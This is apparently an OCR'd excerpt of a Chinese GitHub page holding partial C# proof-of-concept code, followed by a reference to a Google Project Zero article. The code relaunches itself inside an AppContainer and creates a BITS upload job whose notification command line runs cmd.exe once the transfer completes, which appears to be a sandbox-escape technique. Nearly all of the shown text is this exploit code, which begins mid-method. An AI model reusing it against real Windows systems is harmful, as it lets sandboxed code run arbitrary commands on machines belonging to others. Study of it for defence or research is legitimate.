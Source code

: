 ```
			{


				
				if (IsInAppContainer())
				{
					RunBtsJob(args[0]);
				}
				else
				{
					Task.Factory.StartNew(() =>
					{
						StartBitsServer();
					});
					me.WaitOne();
					RestartInAppContainer(args.ToArray());

				}
			}
			catch (Exception e)
			{
				Console.WriteLine(e);
				throw;
			}
		}

		private static void RunBtsJob(string file)
		{
			IBackgroundCopyManager mgr = new BackgroundCopyManager() as IBackgroundCopyManager;
			Guid jobGuid;
			IBackgroundCopyJob job1;
			mgr.CreateJob("fake", BG_JOB_TYPE.BG_JOB_TYPE_UPLOAD, out jobGuid, out job1);
			IBackgroundCopyJob2 job = job1 as IBackgroundCopyJob2;
			job.SetNotifyCmdLine(cmdExe, cmdExe);
			job.SetNotifyFlags(BG_JOB_NOTIFICATION_TYPE.BG_NOTIFY_JOB_TRANSFERRED);
			job.AddFile("http://localhost:5686/fake.png", file);
			job.Resume();
			BG_JOB_STATE stat = BG_JOB_STATE.BG_JOB_STATE_QUEUED;
			while (stat != BG_JOB_STATE.BG_JOB_STATE_TRANSFERRED)
			{
				Thread.Sleep(1000);
				job.GetState(out stat);
			}
			job.Complete();
			Console.Write("Success");
		}
	}
}

```
##  相关引用 ##
[谷歌P0文章](https://googleprojectzero.blogspot.com/2020/04/you-wont-believe-what-this-one-line.html)
